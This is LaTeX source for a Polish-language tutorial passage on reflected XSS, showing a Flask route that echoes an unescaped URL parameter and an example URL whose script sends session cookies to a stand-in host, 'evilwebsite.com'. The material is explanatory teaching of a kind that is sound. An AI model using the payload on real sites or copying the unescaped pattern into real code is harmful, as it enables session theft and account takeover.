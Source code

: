 \documentclass[12pt,a4paper]{article}
\begin{document}
Rozważmy prosty przykład aplikacji webowej w języku Python (Flask), podatnej na atak XSS, która wyświetla powitalny komunikat
z nazwą użytkownika pobraną z parametru URL:

\begin{tcolorbox}
\begin{verbatim}
@app.route('/welcome')
def welcome():
    username = request.args.get('user', '')
    return "<h1>Witaj, " + username + "!</h1>"
\end{verbatim}
\end{tcolorbox}

Dla normalnego wywołania \texttt{/welcome?user=user1} aplikacja zwróci bezpieczny napis witający użytkownika:

\begin{tcolorbox}
\texttt{<h1>Witaj, user1!</h1>}
\end{tcolorbox}

Natomiast - atakujący może przygotować złośliwy kod, który zostanie wywołany przez przeglądarkę internetową ofiary:
\begin{tcolorbox}
\begin{verbatim}
/welcome?user=<script>document.location='https://evilwebsite.com/steal?c='
+document.cookie</script>
\end{verbatim}
\end{tcolorbox}

Wówczas przeglądarka ofiary wykona osadzony skrypt JavaScript, który wykradnie pliki cookie sesji i wyśle je na serwer atakującego. 
Dzięki temu atakujący może, na potrzeby przykładu, \emph{przejąć sesję} zalogowanego użytkownika bez znajomości jego hasła.

Częstymi skutkami udanego ataku XSS są:
\begin{itemize}
    \item kradzież plików cookie sesji i przejęcie konta;
    \item przechwycenie danych wpisywanych przez użytkownika (keylogging);
    \item przekierowanie użytkownika na fałszywe strony w celu wyłudzenia jego danych (phishing);
    \item wykonanie nieautoryzowanych działań w imieniu ofiary (np. przelewów bankowych).
\end{itemize}
\end{document}
